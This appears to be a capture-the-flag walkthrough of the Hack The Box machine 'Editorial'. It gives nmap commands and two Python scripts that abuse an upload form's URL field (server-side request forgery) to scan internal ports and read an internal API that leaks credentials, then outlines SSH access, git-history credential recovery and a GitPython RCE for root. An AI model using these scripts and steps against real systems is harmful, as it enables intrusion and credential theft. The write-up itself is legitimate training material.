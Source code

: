 ![Logo](https://github.com/user-attachments/assets/f0778b7a-f98d-4de2-a60c-d82baf18432a)

---

| **Created by** | **Page**     | **Difficulty** | **OS**  |
|-------------|--------------|----------------|---------|
| [Lanz](https://app.hackthebox.com/users/73707)         | [Hack The Box](https://www.hackthebox.com/)     | Easy           | Linux   |

---









- I start with a scan of the open ports,
    
    ```bash
    nmap -p- -vvv -sS --min-rate 2000 -Pn 10.10.11.20 -oG scan
    ```
    
    ![image](https://github.com/user-attachments/assets/0530e77d-29dc-41d4-87a3-feea64bb1e37)

    
- I continue with a scan of the versions and technologies that are running on the open ports that we have found
    
    ```bash
    nmap -p22,80 -sCV 10.10.11.20 -oN ports
    ```
    
    ![image 1](https://github.com/user-attachments/assets/1d1e8a64-f418-4b6d-9027-69f585b678bb)

    
- I found the domain `editorial.htb` and add it to the file in the `/etc/hosts` file
- I look at what technologies they are using on the website.
    
    ```bash
    whatweb 10.10.11.20 
    whatweb editorial.htb
    ```
    
    ![image 2](https://github.com/user-attachments/assets/52f40437-6109-4b82-afe6-aecfee5e6e3d)

    
    ![image 3](https://github.com/user-attachments/assets/dc563456-6284-407d-8252-0e996f45c85e)

    
- Browsing the web I find a page that allows us to upload a file. I can upload files but they are not interpreted.
    
    ![image 4](https://github.com/user-attachments/assets/83588bc1-0929-4f7f-815a-c9f983b3afdd)

    
    ![image 5](https://github.com/user-attachments/assets/1cd5b645-0cae-45b8-8033-148df6c85d4c)

    
- As I see that the url returned changes depending on whether the file has been uploaded or not, I decide to perform a scan in case it has open ports that are not accessible from the outside.
    
    ![image 6](https://github.com/user-attachments/assets/453b8506-cddc-4040-839f-632695a3d1f3)

    
    ![image 7](https://github.com/user-attachments/assets/3560b871-99e0-40d6-a8b9-ffa6c5ac0d1c)

    
- I create a script to automate the recognition and to show me the open ports according to the length of the response.
    
    ```bash
    #!/usr/bin/python3
    import requests
    import os
    import signal
    import time
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!]Saliendo....\n")
    	sys.exit(1)
    
    signal.signal(signal.SIGINT, def_handler)
    
    def scanPorts():
    	burp0_url = "http://editorial.htb:80/upload-cover"
    	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Content-Disposition": "inline", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "multipart/form-data; boundary=---------------------------134859763814168705221183954404", "Origin": "http://editorial.htb", "Connection": "keep-alive", "Referer": "http://editorial.htb/upload"}
    	openPorts = ""
    	p2 = log.progress("Ports open")
    	p1 = log.progress("Scanning port")
    	for port in range(1, 65535):
    		burp0_data = f"-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookurl\"\r\n\r\nhttp://127.0.0.1:{port}\r\n-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookfile\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------134859763814168705221183954404--\r\n"
    		response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    		lon = len(response.text)
    		p1.status(port)
    		if (lon != 61):
    			if (openPorts == ""):
    				openPorts = port
    			else:
    				openPorts += f",{port}"
    			p2.status(openPorts)
    
    if __name__ == '__main__':
    	scanPorts()
    
    ```
    
- I find that port 5000 is open internally
    
    ![image 8](https://github.com/user-attachments/assets/0eac3f3d-a355-4165-9eed-3fbe0e459279)

    
- I look at the response it gives me when attacking against that port
    
    ![image 9](https://github.com/user-attachments/assets/6ecd93b7-0ff8-4b76-a81f-9729c9f714dd)

    
- When displaying the content of the response we see that we are dealing with an API. I modify the script so that it shows us the content of the queries directly and I begin to investigate the answers of the different endpoints.
    
    ```bash
    #!/usr/bin/python3
    import requests
    import os
    import signal
    import time
    import json
    from pwn import *
    
    def def_handler(sig, frame):
    	print("\n\n[!]Saliendo....\n")
    	sys.exit(1)
    
    signal.signal(signal.SIGINT, def_handler)
    
    url = "http://127.0.0.1:5000/api/latest/metadata/messages/authors"
    
    def scanPorts():
    	burp0_url = "http://editorial.htb:80/upload-cover"
    	burp0_headers = {"User-Agent": "Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0", "Accept": "*/*", "Accept-Language": "en-US,en;q=0.5", "Content-Disposition": "inline", "Accept-Encoding": "gzip, deflate, br", "Content-Type": "multipart/form-data; boundary=---------------------------134859763814168705221183954404", "Origin": "http://editorial.htb", "Connection": "keep-alive", "Referer": "http://editorial.htb/upload"}
    	p1 = log.progress("URL")
    	p1.status(url)
    	burp0_data = f"-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookurl\"\r\n\r\n{url}\r\n-----------------------------134859763814168705221183954404\r\nContent-Disposition: form-data; name=\"bookfile\"; filename=\"\"\r\nContent-Type: application/octet-stream\r\n\r\n\r\n-----------------------------134859763814168705221183954404--\r\n"
    	response = requests.post(burp0_url, headers=burp0_headers, data=burp0_data)
    	urlRequest = "http://editorial.htb/"+response.text
    
    	response2 = requests.get(urlRequest)
    	print(response2.text)
    
    if __name__ == '__main__':
    	scanPorts()
    
    ```
    
- When testing the endpoint authors encountered some potential credentials. I try to connect by ssh with those credentials and I get access and read the first flag
    
    ![image 10](https://github.com/user-attachments/assets/8a49c0a0-ec8f-4fca-a81e-96fd0fbdd5da)

    
    ![image 11](https://github.com/user-attachments/assets/500a15b3-c714-422e-8a88-1f7b46dc8378)

    
- I find that the user `prod`
    
    ![image 12](https://github.com/user-attachments/assets/aaf5761c-2a7e-40c6-a6f3-94e7fc280af4)

    
- When searching for files in the system I find a git repository in /opt/apps
    
    ![image 13](https://github.com/user-attachments/assets/82cffe08-1edc-449d-b66c-de6120d11801)

    
- I mount a web server on port `8000` with `python3 -m http.server` to download to my machine this repository with `git-dumper` and then with `extractor` retrieve the contents of the files in each commit.
    
    [git-dumper](https://github.com/arthaud/git-dumper)
    
    [extractor.sh](https://github.com/internetwache/GitTools/blob/master/Extractor/extractor.sh)
    
    ![image 14](https://github.com/user-attachments/assets/a9af2059-4d86-40cb-a34c-ce80058c1beb)

    
    ![image 15](https://github.com/user-attachments/assets/dd120772-498e-4306-b35a-b8113ca93dda)

    
- When I check the messages of each commit, I see `app_api/app.py` in the file I had and I find another credential with which I can switch user
    
    ![image 16](https://github.com/user-attachments/assets/11baf754-09b1-4986-81b7-8b536159729d)

    
    ![image 17](https://github.com/user-attachments/assets/95bba6b6-f125-4bf9-a0ff-f79141540b96)

    
- Looking at the commands that I can run as another user without providing a password I find that I can run as root a file
    
    ![image 18](https://github.com/user-attachments/assets/4a792ef0-2fe7-479d-9dae-2782420edc22)

    
    ![image 19](https://github.com/user-attachments/assets/11b93363-3655-454b-b40f-094d6d2ea5dd)

    
- After trying to do `python Library Hijacking` and getting nothing, I search for vulnerabilities in the clone_from function and find a `CVE` that allows `Remote Code Execution (RCE)`. Thanks to this I manage to execute a command as root, I become this user and I manage to read the second flag.
    
    https://security.snyk.io/vuln/SNYK-PYTHON-GITPYTHON-3113858
    
    ![image 20](https://github.com/user-attachments/assets/011c8057-b3f0-4f02-a591-3dc5cef2cf70)
